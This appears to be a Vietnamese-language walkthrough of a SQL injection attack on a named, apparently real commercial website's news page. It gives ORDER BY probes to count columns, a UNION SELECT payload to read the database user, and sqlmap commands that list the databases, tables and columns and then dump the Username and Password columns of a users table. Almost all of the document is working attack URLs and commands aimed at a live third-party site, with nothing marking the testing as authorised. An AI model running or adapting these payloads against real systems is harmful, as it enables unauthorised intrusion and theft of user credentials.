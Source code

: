# TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `http://www.cmkoo.com.hk/en/news/news.php?id=28`


## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, user](#kiểm-tra-database-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`

**1. Lấy thông tin database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 --dbs`

![image](https://github.com/user-attachments/assets/a8c0f32a-3c0d-4bfd-9aa0-15cd070e5962)

**2. Lấy các bảng trong database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk --tables`

![image](https://github.com/user-attachments/assets/49aa44d3-efee-4abb-8872-04a7e1720bb4)

**3. Lấy các cột trong bảng**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users --columns`

![image](https://github.com/user-attachments/assets/c8328f5e-fbad-48d3-a7d8-39fef550ca8f)

**4. Lấy thông tin trong cột**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users -C Username,Password --dump`

